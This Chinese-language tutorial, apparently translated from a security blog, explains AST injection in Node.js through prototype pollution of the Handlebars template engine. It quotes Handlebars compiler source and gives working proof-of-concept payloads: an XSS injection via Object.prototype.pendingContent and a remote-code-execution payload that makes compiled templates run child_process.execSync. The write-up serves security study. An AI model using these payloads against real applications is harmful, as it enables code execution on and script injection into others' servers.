## AST注入
#AST注入
#nodejs
[英文原文](https://blog.p6.is/AST-Injection/#Exploit)[中文原文](https://xz.aliyun.com/t/10218)
如果在JS应用中存在原型污染漏洞，任何 AST 都可以通过在`Parser(解析器)`或`Compiler(编译器)`过程中插入到函数中。
在这里，你可以在没有过滤、没有经过`lexer(分析器)`或`parser(解析器)`验证的输入(没有被适当的过滤)的情况下插入AST。
然后我们可以向`Parser(编译器)`非预期的输入。
模版使用方法：
```javascript
const Handlebars = require('handlebars');
Object.prototype.pendingContent = `<script>alert(origin)</script>`
const source = `Hello {{ msg }}`;
const template = Handlebars.compile(source);
console.log(template({"msg": "posix"})); // <script>alert(origin)</script>Hello posix
```
`Handlebar.compile` 函数将字符串转换为模板函数并传递对象因子以供调用。
你可以插入任意字符串`payload`到`Object.prototype.pendingContent`中决定你想要的攻击。
```js
<!-- /node_modules/handlebars/dist/cjs/handlebars/compiler/javascript-compiler.js -->
appendContent: function appendContent(content) {
    if (this.pendingContent) {
        content = this.pendingContent + content;
    } else {
        this.pendingLocation = this.source.currentLocation;
    }

    this.pendingContent = content;
},
pushSource: function pushSource(source) {
    if (this.pendingContent) {
        this.source.push(this.appendToBuffer(this.source.quotedString(this.pendingContent), this.pendingLocation));
        this.pendingContent = undefined;
    }

    if (source) {
        this.source.push(source);
    }
}
```
编译函数如下：
```js
<!-- /node_modules/handlebars/dist/cjs/handlebars/compiler/base.js -->

function parseWithoutProcessing(input, options) {
  // Just return if an already-compiled AST was passed in.
  if (input.type === 'Program') {
    return input;
  }

  _parser2['default'].yy = yy;

  // Altering the shared object here, but this is ok as parser is a sync operation
  yy.locInfo = function (locInfo) {
    return new yy.SourceLocation(options && options.srcName, locInfo);
  };

  var ast = _parser2['default'].parse(input);

  return ast;
}

function parse(input, options) {
  var ast = parseWithoutProcessing(input, options);
  var strip = new _whitespaceControl2['default'](options);

  return strip.accept(ast);
}
```
parse函数除了可以接受模板字符串之外还可以接受Program类型。
当 `input.type` 是`Program`时，虽然输入值实际上是字符串。`Parser` 认为它是已经被`parser.js` 解析过的`AST`了，然后将其发送给而`compiler`不做任何处理。
`compiler`接收到 `AST 对象(AST Object)`（实际上是一个字符串）并将其传到 `accept`方法。
`accept`方法调用`Compiler`的 `this[node.type]`。
然后获取 `AST`的 `body` 属性并将其用于构造函数。
```js
const Handlebars = require('handlebars');

Object.prototype.type = 'Program';
Object.prototype.body = [{
    "type": "MustacheStatement",
    "path": 0,
    "params": [{
        "type": "NumberLiteral",
        "value": "console.log(process.mainModule.require('child_process').execSync('id').toString())"
    }],
    "loc": {
        "start": 0,
        "end": 0
    }
}];

const source = `Hello {{ msg }}`;
const template = Handlebars.precompile(source);

console.log(eval('(' + template + ')')['main'].toString());

/*
function (container, depth0, helpers, partials, data) {
 var stack1, lookupProperty = container.lookupProperty || function (parent, propertyName) {
 if (Object.prototype.hasOwnProperty.call(parent, propertyName)) {
 return parent[propertyName];
 }
 return undefined
 };

 return ((stack1 = (lookupProperty(helpers, "undefined") || (depth0 && lookupProperty(depth0, "undefined")) || container.hooks.helperMissing).call(depth0 != null ? depth0 : (container.nullContext || {}), console.log(process.mainModule.require('child_process').execSync('id').toString()), {
 "name": "undefined",
 "hash": {},
 "data": data,
 "loc": {
 "start": 0,
 "end": 0
 }
 })) != null ? stack1 : "");
}
*/
```
如果您已经通过`parser`，请指定一个无法分配给 `NumberLiteral` 值的字符串。
但是注入 AST 之后，我们可以将任何代码插入到函数中。